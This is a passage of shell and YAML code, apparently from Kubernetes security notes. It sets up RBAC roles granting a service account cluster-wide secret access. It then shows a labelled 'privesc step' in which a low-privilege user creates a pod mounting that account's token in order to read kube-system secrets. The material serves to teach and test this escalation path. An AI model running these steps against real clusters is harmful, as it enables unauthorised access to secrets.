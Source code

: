 ```bash
    resources: ["pods"]
    verbs: ["get", "list", "delete", "patch", "create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: test-rb
subjects:
  - kind: ServiceAccount
    name: test-sa
  - kind: User
    name: Test
roleRef:
  kind: Role
  name: test-r
  apiGroup: rbac.authorization.k8s.io
---
kind: ClusterRole
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  name: test-cr
rules:
  - apiGroups: [""]
    resources: ["secrets"]
    verbs: ["get", "list", "delete", "patch", "create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: test-crb
subjects:
  - kind: ServiceAccount
    namespace: default
    name: test-sa
    apiGroup: ""
roleRef:
  kind: ClusterRole
  name: test-cr
  apiGroup: rbac.authorization.k8s.io' | kubectl apply -f -

# Check test-sa can access kube-system secrets
kubectl --as system:serviceaccount:default:test-sa -n kube-system get secrets

# Check user User can get pods in namespace default
kubectl --as Test -n default get pods

# Create a pod as user Test with the SA test-sa (privesc step)
echo "apiVersion: v1
kind: Pod
metadata:
  name: test-pod
  namespace: default
spec:
  containers:
  - name: alpine
    image: alpine
    command: ['/bin/sh']
    args: ['-c', 'sleep 100000']
  serviceAccountName: test-sa
  automountServiceAccountToken: true
  hostNetwork: true"| kubectl --as Test apply -f -

# Connect to the pod created an confirm the attached SA token belongs to test-sa
```